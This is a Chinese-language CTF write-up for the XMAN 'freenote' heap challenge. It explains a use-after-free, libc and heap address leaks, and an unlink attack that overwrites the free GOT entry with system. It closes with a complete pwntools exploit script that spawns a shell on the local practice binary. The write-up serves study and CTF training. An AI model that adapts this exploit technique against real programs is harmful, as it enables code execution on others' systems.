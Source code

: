 ```yaml
---
title: Xman Freenote
date: 2018-08-24 08:37:40
tags: [CTF, PWN]
categories: XMAN夏令营
---
```

## xman夏令营 freenote
​	这道题做了一天半，最后终于搞出来了。有很多细节需要注意下。  
<!--more-->
拿到题目看是freenote肯定就是个堆题，也没看保护直接ida一波走起，大略的看了一下很快发现了漏洞，在delete函数中free掉chunk后没有在chunk list对应的index中置null，导致有个野指针指向了free chunk。  
	一个野指针能做什么，一开始想的是能否通过double free造一个任意地址写，不过发现这题没有溢出，而且它的new函数中规定你malloc的chunk大小必须为0x80的整数，这样连fastbin都没有了，所以干脆放弃了fastbin attack的思路。  
接着想0x80的整数倍，那么它free的时候会先放到unsorted bin中，chunk的fd和bk会指向main_arena，此时如果我们再new一个8字节的padding，因为不是0x80的倍数，所以默认分配0x80大小的chunk，覆盖原来free掉的chunk，就可以泄露main_arena的值，也就是原free chunk的bk（其实最后一个字节是固定的，也可以泄露fd）。一旦我们get到unsorted bin的表头地址，因为偏移固定，所以我们可以计算出libc基址，这样的话system和binsh等一些东西的地址就知道了。  
接下来就是解题的关键所在，知道libc后我们该如何继续去做，看一下edit函数，发现它的逻辑是如果新的输入长度大小原来的输入长度，就会在新的位置realloc一个chunk，如果小于原来的长度才能覆盖原来的chunk。好像也没啥问题，反正就是不能溢出，直接改free chunk的fd和bk不现实，这时候考虑到使用unlink，通过伪造fake chunk来修改chunk list中的值，最后利用edit函数进行修改，很完美，应该就是这种思路。   
	得知要利用unlink的时候可以想到，首先要知道目标fd和bk的地址，这里由于chunk list是构造在堆上的，所以地址需要泄露，如何泄露，还是unsorted bin，和泄露libc一样的思路，只不过这里需要malloc 4个chunk，delete两个chunk使之有对应的fd和bk，而且delete chunk的顺序需要注意下，防止top chunk从后面进行合并。这样的话我们第一个chunk的指针就能泄露了。由于程序在一开始malloc了一个0x1810大小的chunk，所以偏移可以说是固定的，得到的first allocated chunk的堆地址减去0x1810后得到的就是chunk list  ptr的地址了。  
	最后考虑unlink，需要注意的是之前每次泄露之后都需要清理下chunk，让top进行合并，否则堆结构被破坏会报一些奇怪的错。  
	unlink这里的操作是先malloc一个大一点的chunk，可以是0x80*2或0x80*3，然后在这块大的chunk中构造两个正常的0x80大小的chunk，一个fake chunk，一个正常chunk，这里由于是在一个堆快内，所以元数据可以任意进行构造，构造完成之后delete第二个堆快，因为chunk list中的指针并没有置null，所以这里可以free掉第二个chunk构造unlink。  
	unlink的时候会有检查，包括size和fd、bk，p->size==(p->nextchunk).prevsize,p==(p->fd)->bk,p==(p->bk)->fd,基本就这样，这个可以根据chunk list的堆结构比划一下，应该不难构造。  
unlink完成后chunk list就能写了，使用程序自带的edit函数先把free got写入，之后再次edit写system。一开始想的是写atoi，但是atoi在edit中有使用，所以就去写free got了，这里应该也可以one_gadget，待会再试一下。  
	总的来说这道题还是有点烦的，当然也是我水平不够，没有一眼就看出如何利用，导致审洞+写exp花了很长时间，继续加油吧。

```
from pwn import *
p=process('./freenote')
elf=ELF('./freenote')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p,'''
#	break *0x00000000004010A8
#	continue
#''')

def add(x):
	p.recvuntil('Your choice: ')
	p.sendline('2')
	p.recvuntil('Length of new note: ')
	p.sendline(str(len(x)))
	p.recvuntil('Enter your note: ')
	p.sendline(x)

def show():
	p.recvuntil('Your choice: ')
	p.sendline('1')

def edit(x,y):
    p.recvuntil("Your choice: ")
    p.send("3\n")
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")
    p.recvuntil("Length of note: ")
    p.send(str(len(y))+"\n")
    p.recvuntil("Enter your note: ")
    p.send(y)


def dele(idx):
	p.recvuntil('Your choice: ')
	p.sendline('4')
	p.recvuntil('Note number: ')
	p.sendline(str(idx))

#leak the libc
add('a'*0x80)
add('b'*0x80)
dele(0)
add('\x78')
show()
p.recvuntil('0. ')
#main_arena=p.recv(6)[::-1]
main_arena=u64(p.recv(6).ljust(8,'\x00'))
log.info('main_arena > '+hex(main_arena))
libc_base=main_arena-0x3c4b78
log.info('libc_base > '+hex(libc_base))
system_address=libc_base+libc.symbols['system']
binsh_address=libc_base+libc.search('/bin/sh').next()
log.info('system_address > '+hex(system_address))
log.info('binsh_address > '+hex(binsh_address))

dele(1)
dele(0)   #top chunk merge

#leak the chunk list ptr
add('a'*0x80) #0
add('b'*0x80)
add('c'*0x80) #2
add('d'*0x80)
dele(2)
dele(0)
add('A'*8)
show()
p.recvuntil('0. AAAAAAAA')
heap_address=(u64(p.recv(4).ljust(8,'\x00')))
heap=heap_address-0x1810
#print hex(heap_address)
log.info('heap_chunk_ptr > '+hex(heap))
dele(3)
dele(0)
dele(1) #clear the chunk / top chunk merge

#unlink
#add(0x80*'a')
#add(0x80*'b')
#add(0x80*'c')
#dele(2)
#dele(1)
#dele(0) #top chunk merge / convert is ok
payload=(p64(0)+p64(0x81)+p64(heap+0x8)+p64(heap+0x10)+'0'*0x60+p64(0x80)+p64(0x90)+'1'*0x80)+p64(0)+p64(0x80+0x11)+"1"*(0x80-0x20)
add(payload)
log.info('heap > '+hex(heap))
dele(1)
atoi_address=elf.got['atoi']
log.info('atoi_got > '+hex(atoi_address))
#log.info('heap > '+hex(heap))
'''
#p.sednline(p64(0x0)+p64(1)+p64(0x80)+p64(system_address))
payload2=p64(0x80)+p64(1)+p64(0x8)+ p64(atoi_address)+"A"*16+p64(binsh_address)
payload2+="A"*(0x60*3-len(payload2))
edit(0,payload2)
edit(0,p64(system_address))
p.recvuntil("Your choice: ")
p.sendline('/bin/sh\x00')  #edit function used atoi so you could not write atoi got
'''
free_got = 0x602018
payload2 = p64(0x80) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_address)
payload2 += "A"* (0x80*3-len(payload2))
edit(0, payload2)
edit(0, p64(system_address))
dele(1)
p.interactive()

```

